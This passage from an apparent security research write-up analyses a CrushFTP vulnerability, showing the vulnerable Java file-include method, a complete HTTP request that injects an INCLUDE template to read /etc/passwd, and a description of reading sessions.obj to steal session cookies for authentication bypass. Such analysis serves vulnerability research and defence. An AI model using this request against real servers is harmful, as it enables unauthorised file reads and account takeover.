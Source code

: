 
### Arbitrary File Read Vulnerability via SSTI

Now, moving on to the `do_include_file_command` , let’s analyze the method:

```java
  public String do_include_file_command(String in_str) {
    try {
      String file_name = in_str.substring(in_str.indexOf("<INCLUDE>") + 9, in_str.indexOf("</INCLUDE>"));
      RandomAccessFile includer = new RandomAccessFile((File)new File_S(file_name), "r");
      byte[] temp_array = new byte[(int)includer.length()];
      includer.read(temp_array);
      includer.close();
      String include_data = String.valueOf(new String(temp_array)) + this.CRLF;
      return Common.replace_str(in_str, "<INCLUDE>" + file_name + "</INCLUDE>", include_data);
    } catch (Exception exception) {
      return in_str;
    } 
  }
```

Recalling that the disclosure for this vulnerability mentioned that VFS sandbox bypass meaning an attacker will be able to request any file on the system not just from the VFS. This is what made the vulnerability a rather severity one. In the above code snippet, we don’t see any explicit check against the given directory to be within the VFS like we saw in the `get_dir_list` , to give an overview, this method parses the given placeholder value, for example if `<INCLUDE>/etc/passwd</INCLUDE>` , it will get the `/etc/passwd` and store it in the `file_name` and then using the `[includer.read](http://includer.read)`  method, it will read that file and then return the retrieved content.

Let’s test this out by reading the `/etc/passwd` file:

```html
GET /WebInterface/function/?command=zip&c2f=1QTL&path=<INCLUDE>/etc/passwd</INCLUDE>&names=* HTTP/1.1
Host: localhost:8080
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: currentAuth=1QTL; CrushAuth=1715144049924_XPU0xRbx1hIJZnsTuFUQ9l8wFI1QTL
```

![Untitled](/img/CrushFTP/Untitled_5.png)

Retrieving the contents of `/etc/passwd` using the `INCLUDE` template. 

This is the vulnerability which was mainly discussed everywhere but rather what happened here is the custom templating engine that CrushFTP has implemented and the `INCLUDE` which is a specified template for retrieving specific file. Since the direct call of this function does not check for files within the VFS allowing us to traverse through the whole file system.

#### Authentication Bypass via `sessions.obj`

Using this Arbitrary File read vulnerability, we can get the session cookies for the users by reading the `sessions.obj` , this file contains raw data and also stores session cookies for the logged in users. Once retrieved, one can extract the session cookies and then use it to access the CrushFTP functionalities.
![Untitled](/img/CrushFTP/sessions_obj.png)

---